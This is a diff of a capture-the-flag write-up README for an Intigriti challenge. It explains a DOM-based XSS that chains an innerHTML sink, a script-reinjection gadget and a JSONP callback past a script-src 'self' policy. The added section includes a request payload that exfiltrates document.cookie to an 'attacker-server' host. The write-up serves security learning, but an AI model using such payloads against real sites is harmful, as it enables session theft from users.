

Before and after one commit to Franc-Zar/CTFsWriteups, a Markdown page: intigriti/february-challenge-0226/README.md, the part around one of its changes. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
done: february intigriti

````diff
--- a/intigriti/february-challenge-0226/README.md
+++ b/intigriti/february-challenge-0226/README.md
@@ -164,24 +193,62 @@ fetch('/api/render?id=' + postId)
     }
 ```
 
+The application fetches user-submitted post content from `/api/render` on the client-side and inserts it directly into the **DOM** using `innerHTML`.
+It then processes code blocks for highlighting and reinjects any `<script src="/api/...">` tags.
+
+*"...And I know that is true, I can tell by the look in your **if**..."*
+
 ## Exploit
 
 The target is vulnerable to **DOM-based XSS** due to the way it handles user‑controlled HTML and script elements in the front‑end rendering flow.
 
-The vulnerable behavior occurs in two steps:
+The vulnerable behaviour occurs in two steps:
 
 1. Unsanitized user HTML is written directly to `innerHTML`:
     ```javascript
     preview.innerHTML = data.html;
     ```
-    * the value of `data.html` comes from user-generated posts and is inserted directly into the DOM without any sanitisation or escaping;
-    * this makes the innerHTML assignment a **DOM sink**, allowing an attacker to inject arbitrary HTML, including `<script>`.
+    * the value of `data.html` comes from user-generated posts and is inserted directly into the **DOM** without any sanitisation or escaping;
+    * this makes the **innerHTML** assignment a **DOM sink**, allowing an attacker to inject arbitrary HTML, including `<script>`.
 
-2. `processContent()` actively re‑injects attacker‑supplied scripts into the live DOM:
+2. `processContent()` actively re‑injects attacker‑supplied scripts into the live **DOM**:
     * after rendering the HTML, the code searches for any `<script>` elements inside the untrusted content;
     * this logic takes any script with a `src` attribute containing `/api/` and:
         * creates a new real `<script>` element;
         * copies the attacker‑controlled URL into `newScript.src`;
         * appends it to the page, forcing the browser to load and execute it.
 
-This “script reinjection” behavior acts as an **XSS gadget** and at this point the last
+This **“script reinjection”** behaviour acts as an **XSS gadget** forming a mandatory path for exploiting **DOM-based XSS** in the application.
+
+The application also enforces a **Content Security Policy (CSP)**:
+
+    Content-Security-Policy: script-src 'self';
+
+* inline scripts cannot be executed;
+* scripts are restricted to same-origin sources.
+
+However, good news, the **CSP** does not restrict outgoing network requests:
+
+    Content-Security-Policy: connect-src *;
+
+This means that, while arbitrary script execution is blocked, attacker-controlled scripts loaded from allowed sources can still make requests to external domains, enabling data exfiltration.
+
+The final link in the attack chain is identifying a way to inject arbitrary JavaScript payloads while ensuring they are loaded from a same-origin source. Any ideas?
+
+Returning to our artistic vein, we face the timeless dilemma:
+
+***"to JSONP or not to JSONP — that is the question.***
+
+![Shakespeare](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExZDBuajRzc3pud3RqOHloNG1xNTVvcGhuNzQyMnNneHRjd21wYXY0ayZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/F2TGh14VQFCxpAYeQd/giphy.gif)
+
+
+Yes, I did give you a small hint.
+
+Recall that the `/api/jsonp` endpoint reflects the `?callback` query parameter directly into the response without proper sanitization. This behavior can be leveraged to inject a malicious script URL that will subsequently be loaded and executed by the vulnerable `processContent()` function.
+
+To successfully exploit this, it is necessary to break out of the default `user_data` JSON string that is embedded in the response.
+This can be achieved by crafting a request such as the following:
+```http
+GET /api/jsonp?callback=fetch('https://attacker-server?'%2Bdocument.cookie)// HTTP/2
+```
+
````
Also changed, not shown: other parts of intigriti/february-challenge-0226/README.md (+77 -11 lines).
